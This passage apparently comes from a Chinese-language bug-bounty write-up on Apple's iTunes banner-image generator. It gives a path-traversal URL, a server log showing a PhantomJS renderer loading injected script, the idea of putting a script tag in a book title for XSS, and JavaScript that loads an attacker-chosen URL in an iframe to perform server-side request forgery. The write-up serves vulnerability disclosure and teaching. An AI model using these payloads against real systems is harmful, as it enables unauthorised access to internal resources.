 例如：
```
https://banners.itunes.apple.com/bannerimages/banner.png?pr=itunes/../../&t=catalog_black&c=us&l=en-US&id=1527342866&w=300&h=250&store=books&cache=false
```

結果會出現 AWS S3 錯誤頁面

![](https://secureservercdn.net/198.71.233.25/623.f31.myftpupload.com/wp-content/uploads/2020/08/banner.png)  

從這裡我們假設他們使用 headerless browser client 來截取 S3 bucket 內的 HTML 文件的 screenshots
- 因此，下一步是創建一本書，名稱中包含 `<script src=””>`
- 以便在圖產生過程中用 XSS

我們注意到的第一件事是在 request log 誌中，當它到達我們的 server 時：

```
54.210.212.22 - - [21/Aug/2020:15:54:07 +0000] "GET /imgapple.js?_=1598025246686 HTTP/1.1" 404 3901 "http://apple-itunes-banner-builder-templates-html-stage.s3-website-us-east-1.amazonaws.com/itunes/catalog_white/index.html?pr=itunes&t=catalog_white&c=us&l=en-US&id=1528672619&w=300&h=250&store=books&cache=false" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1"
```

這是它用來產生圖片的 S3 bucket / image

```
http://apple-itunes-banner-builder-templates-html-stage.s3-website-us-east-1.amazonaws.com/itunes/catalog_white/index.html?pr=itunes&t=catalog_white&c=us&l=en-US&id=1528672619&w=300&h=250&store=books&cache=false
```

這是 User-Agent:

```
PhantomJS/2.1.1
```

首先是寫我們的 JS XSS payload 來執行 Server Side Request Forgery attacks
- 執行此操作並呈現資料的一個好方法是使用 `<iframe> `元素。

```js
function getQueryParams(qs) {
  qs = qs.split('+').join(' ');

  var params = {},
    tokens,
    re = /[?&]?([^=]+)=([^&]*)/g;

  while (tokens = re.exec(qs)) {
    params[decodeURIComponent(tokens[1])] = decodeURIComponent(tokens[2]);
  }
  return params;
}

var query = getQueryParams(document.location.search);
var iframe = document.createElement("iframe");
iframe.src = query.url;
var iframeParent = document.getElementById("meta");
iframeParent.appendChild(iframe);
```
